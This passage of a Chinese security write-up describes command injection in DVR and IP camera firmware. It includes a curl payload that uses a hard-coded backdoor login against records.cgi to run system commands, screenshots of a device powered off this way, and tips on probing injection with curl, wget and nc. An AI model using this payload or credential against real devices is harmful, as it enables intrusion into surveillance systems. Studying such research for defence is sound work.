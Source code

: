 那么,问题就来了,上学老师就告诉过,sprintf要不得,一点过滤都没有而且这里还是用的system function  
(web狗表示这里能够搞定很开心~)

所以,我们可以利用官方那个后门访问records.cgi,构造payload来进行命令注入从而执行系统命令

```
curl -d "user=3sadmin&password=27988303" http://*.*.*.*/records.cgi?action=remove&storage=sd&filename=test`commands`

```

0x03 exploit
============

* * *

![](http://drops.javaweb.org/uploads/images/f19e9ec94cf41e6b38d38de349c5f40a7a33f312.jpg)

执行poweroff后~

![](http://drops.javaweb.org/uploads/images/6f61d812377b190bd0bd4b857fde28cef0afbae3.jpg)

![](http://drops.javaweb.org/uploads/images/177f61720b28449d6643f6804145611055e7b4f1.jpg)

0x04 IPCAM&&videorecorders
==========================

* * *

一直以来，hacking题材的电影都非常炫酷，黑客们入侵大楼在键盘上噼里啪啦，不多时就如入无人之境，分分钟黑下大楼的所有系统，其中，对监控摄像头的hacking描写也很多，这次我们就来“意淫”一下，入侵大楼时，hacking监控摄像(文中案例都是我编的，请勿对号入座)

一般大楼内都有许多摄像头，它们通常区分为网络摄像头和录像机，录像机是可以保存画面数据的，先来大致了解一下他们是如何工作的：

![image](http://drops.javaweb.org/uploads/images/1bff8398d35a182b4c9664976c08b9c5b0ebef3c.jpg)

![image](http://drops.javaweb.org/uploads/images/84aa5b82d9490faa05d3797ff913e1d931fe088a.jpg)

如上图，管理界面可以分屏查看当前在线的所有cam画面

从简易到拓扑我们可以看到，在整个系统中manage server用作管理下属cam，通常有web ui，管理还可通过自己的设备接入进行管理操作，管理的日志和数据存放在数据库中，说明是有数据查询交互的，DVR录像机的画面数据也会存放在server中，而ipcam则会实时传输，也就是说，我们hacking的入手点，可以放在DVR，IPCAM，manager的web方向

也就是说，我们可以通过：

`web ui(manager server) -->HTTP(apache。。。) -->OS(system)-->Hardware(DVR&&IPCAM)`OR

`Hardware(DVR&&IPCAM) -->OS(system)-->HTTP(apache。。。) -->web ui(manager server)`

一个是通过上层到底层，另一个则直接通过IPCAM或DVR的固件问题直接hacking

0x05 some tricks
================

* * *

上一篇文章中我们通过执行payload时使用curl发包，用ping来检测命令是否注入，在embedded devices hacking中，还有一些小trick可以帮助我们

很多时候，厂商对原始设备进行了二次开发，所以有些命令你在其他设备work，在目标设备就不work，所以我们可以多采用几种命令进行测试，如curl，wget，nc
